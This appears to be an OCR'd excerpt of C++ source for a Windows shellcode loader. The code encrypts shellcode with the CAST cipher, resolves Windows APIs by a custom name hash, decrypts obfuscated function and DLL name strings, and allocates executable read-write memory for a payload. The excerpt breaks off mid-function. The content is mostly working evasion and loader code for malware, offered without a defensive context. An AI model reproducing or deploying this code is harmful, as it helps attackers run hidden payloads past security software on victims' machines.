 ```cpp
}

void cast_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_encrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}

DWORD calcMyHash(char* data) {
  DWORD hash = 0x23;
  for (int i = 0; i < strlen(data); i++) {
    hash += data[i] + (hash << 1);
  }
  return hash;
}

static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = (PIMAGE_NT_HEADERS)((LPBYTE)h + 
  img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
    (LPBYTE)h + img_nt_header->OptionalHeader.
    DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
  PDWORD fAddr = (PDWORD)((LPBYTE)h + img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)((LPBYTE)h + img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)((LPBYTE)h + img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
    LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

    if (calcMyHash(pFuncName) == myHash) {
    //   printf("successfully found! %s - %d\n", pFuncName, myHash);
      return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
    }
  }
  return nullptr;
}

void cast_decrypt_and_execute_shellcode(unsigned char* shellcode, int 
shellcode_len, uint32_t subkeys[ROUNDS][4]) {
  LPVOID mem_block = NULL;
  // decrypt function string
  d((char*)cva, sizeof(cva), secretKey, sizeof(secretKey));
  // allocate memory buffer for payload
  d((char*)kdll, sizeof(kdll), secretKey, sizeof(secretKey));

  wchar_t wtext[20];
  mbstowcs(wtext, kdll, strlen(kdll)+1); //plus null
  LPWSTR k_dll = wtext;

//   HMODULE kernel = GetModuleHandle((LPCSTR)kdll);
  HMODULE kernel = myGM(k_dll);
//   pva = (LPVOID(WINAPI *)(LPVOID, SIZE_T, DWORD, DWORD))GetProcAddress
// (kernel, (LPCSTR)cva);
  pva = (LPVOID(WINAPI *)(LPVOID, SIZE_T, DWORD, DWORD))myGPA(kernel, 
  (LPCSTR)cva);

  // allocate a single block for execution
  mem_block = pva(NULL, shellcode_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  if (mem_block == NULL) {
    printf("memory allocation failed\n");
    exit(1);
```